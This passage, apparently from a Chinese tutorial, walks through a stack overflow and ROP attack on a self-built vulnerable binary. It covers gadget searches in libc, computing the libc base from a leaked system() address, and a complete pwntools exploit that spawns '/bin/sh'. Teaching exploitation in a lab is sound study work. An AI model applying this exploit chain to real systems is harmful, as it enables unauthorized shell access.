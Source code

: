 ```c
{
    systemaddr();
    write(1, "Hello, World\n", 13);
    vulnerable_function();
}
```
编译：`gcc -fno-stack-protector vuln2.c -o vuln2 -ldl`

> 如果你的程序中使用dlopen、dlsym、dlclose、dlerror 显示加载动态库，需要设置链接选项 -ldl

程序会打印system()在内存中的地址，这样就不需要考虑ASLR的问题了，只要想办法执行`system("/bin/sh")`就行。需要找一个将rdi指向”/bin/sh”的gadgets：

从程序中查找指令: `ROPgadget --binary vuln2`

因为程序较小，没有`pop rdi; ret`这个gadgets。可以从libc.so中找，因为程序本身会load libc.so到内存中，并打印system()的地址，所以找到gadgets后可以通过system()计算出libc.so在内存中的基址，从而得到gadgets在内存中的实际地址。

查看调用的动态库：`ldd vuln2`
```
	linux-vdso.so.1 =>  (0x00007ffff7ffa000)
	libdl.so.2 => /lib64/libdl.so.2 (0x00007ffff7bd7000)
	libc.so.6 => /lib64/libc.so.6 (0x00007ffff7809000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ffff7ddb000)

```
查找libc中的`pop rdi ; ret`
```
ROPgadget --binary /lib64/libc.so.6 --only "pop|ret" | grep rdi
0x000000000001fcf0 : pop rdi ; pop rbp ; ret
0x0000000000022bf8 : pop rdi ; ret
```
我们需要构造的payload结构如下
```
payload = "\x00" * 136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)
```
因为我们只需要调用一次system()函数就可以获取shell，所以可以搜索不带ret的gadgets：
```
ROPgadget --binary /lib64/libc.so.6 --only "pop|call" | grep rdi
0x000000000018f783 : call qword ptr [rbp + rdi*4]
0x0000000000184ab7 : call qword ptr [rdi]
0x00000000000266db : call rdi
0x00000000000fe889 : pop rax ; pop rdi ; call rax
0x0000000000033cfb : pop rdi ; call 0x8ff83
0x00000000000fe88a : pop rdi ; call rax
```
发现`pop rax ; pop rdi ; call rax`也可以完成目标，将rax赋值system()的地址，rdi赋值为”/bin/sh”的地址：
```
payload = "\x00" * 136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr)
```
这两个ROP链都可以完成目标，随便选择一个进行攻击即可。
最终的exp:
```
#!/usr/bin/env python
from pwn import *

libc = ELF('/lib64/libc.so.6')
p = process('./vuln2')
system_addr_str = p.recvuntil('\n')
system_addr = int(system_addr_str,16)
base_addr = system_addr - libc.symbols['system']
binsh_addr = base_addr + next(libc.search('/bin/sh'))
pop_ret_addr = base_addr + 0x0000000000022bf8
p.recv()
payload = "\x00" * 136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)
p.send(payload)
p.interactive()
```
结果